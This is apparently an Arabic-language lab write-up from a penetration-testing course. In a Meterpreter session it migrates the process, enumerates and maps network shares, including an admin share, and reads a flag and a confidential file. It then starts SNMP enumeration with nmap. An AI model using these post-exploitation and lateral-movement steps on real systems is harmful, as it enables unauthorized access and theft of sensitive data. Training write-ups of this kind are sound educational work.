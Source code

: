طيب خلونا الان نسوي شوي enumration عن هذا البورت الي مفتوح بالتارقت  
```bash
sessions -i 1  
shell  
net view 10.0.22.69  
```  
net view command to find all resources shared by the demo1.ine.local machine.  
طبعا نشوف انه قال Access is denied  
وهذا بسبب ان البروسس ماسوينا له migrate فخلونا نرجه للـ meterpreter session ونسوي migrate  
```bash
CTRL + C  
migrate -N explorer.exe  
shell  
net view 10.0.22.69  
```  
نشوف انه عطانا مجلدين والي هي Documents , K  
طيب الان خلونا نضيفها عندنا بجهاز الضحيه يعني ونشوف موجود داخل كل مجلد فيهم  
```bash
net use D: \\10.0.22.69\Documents  
net use K: \\10.0.22.69\K$  
```  
نشوف انه اضافها لنا تحت هذي المسارين  
```bash
dir D:  
dir K:  
```  
طبعا اضافها كانها هارد بالجهاز الويندوز الي هو التارقت  
بعد ماسوينا dir طبعا حصلنا الفلاق بمسار الـ D  
وحصلنا ملف اسمه Confidential.txt  
طيب خلونا الان نرجع الى الـ meterpreter session ونقرا الفلاق والملف نشوف وش فيه  
```bash
CTRL + C  
cat D:\\Confidential.txt  
cat D:\\FLAG2.txt  
```  

طبعا نشوف انه حصلنا داخل الملف معلومات عن فيزا طبعا الهدف من وجود الملف انه تبدا تتعود على الملفات الحساسه او الملفات الي فيها معلوما يعني sesnsitive من اسمها يعني بتجذبك  

الى هنا انتهى اللاب نشوف الي بعده  

---  


SNMP Analysis  
--------------|  

طيب الان معطينا نفس الدومين الي قبل خلونا نفحصه  
```bash
nmap -sV -sC demo.ine.local  
```  

نشوف انه عطانا 4 بورتات اوبن وبنفس الوقت هذي فقط بورتات الـ TCP خلونا نجرب نفحص الـ UDP ports  

طبعا المفروض نفحص كامل بورتات الـ UDP لكن راح يطول ف بنختصر ونشوف بورت snmp protocol فقط  
```bash
nmap -sU -p 161 demo.ine.local  
```  
نشوف انه اوبن  
طبعا لابد تتاكد انه شغال سواء بالـ nc او انك تدلخ البورت المفتوح  
لانه بورتات الـ UDP ممكن يقوله انه open وهو بالواقع لا  
